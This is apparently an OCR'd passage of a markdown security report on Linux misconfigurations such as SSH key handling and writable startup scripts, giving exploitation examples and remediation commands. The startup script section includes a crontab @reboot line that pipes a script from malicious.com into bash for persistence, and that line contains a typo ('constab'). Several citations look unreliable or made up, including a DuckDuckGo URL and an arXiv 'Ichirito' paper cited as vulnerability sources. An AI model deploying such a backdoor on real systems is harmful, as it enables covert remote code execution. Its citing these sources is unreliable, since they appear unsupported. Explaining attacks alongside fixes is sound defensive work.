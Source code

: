       - **Vulnerability**: [SSH Key Management Risks (DuckDuckGo)](https://www.duckduckgo.com/ssh-security)                                                                                                                            
      - **Remediation**: [OpenSSH Documentation on Authorized Keys](https://www.openssh.com/manual.html)                                                                                                                               
      - **Exploitation Example**: [SSH Privilege Escalation Techniques](https://www.cve.org/CVERecord?id=CVE-2020-14145)                                                                                                               
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## 3. **Insecure Startup Script Permissions**                                                                                                                                                                                    
      **Exploitation Vector**: Attackers inject backdoors into startup scripts (e.g., `/etc/rc.local`, `crontab`) for persistence.                                                                                                     
      **Tool, Prompt, & Resource**:                                                                                                                                                                                                    
      - **Tool**: `echo` (to append payloads)                                                                                                                                                                                          
      - **Prompt**: "Allow admin-defined startup scripts"                                                                                                                                                                              
      - **Resource**: `/etc/rc.local` or `crontab -l`                                                                                                                                                                                  
                                                                                                                                                                                                                                       
      ### Exploitation Example                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          
      (constab -l; echo "@reboot curl http://malicious.com/shell.sh | bash") | crontab -                                                                                                                                               
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Remediation Command                                                                                                                                                                                                          
      ```bash                                                                                                                                                                                                                          
      chmod 600 /etc/rc.local && chown root:root /etc/rc.local                                                                                                                                                                         
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Source Citations                                                                                                                                                                                                             
      - **Vulnerability**: [Ichirito: Startup Script Exploitation (Arxiv)](https://arxiv.org/abs/2103.03404)                                                                                                                           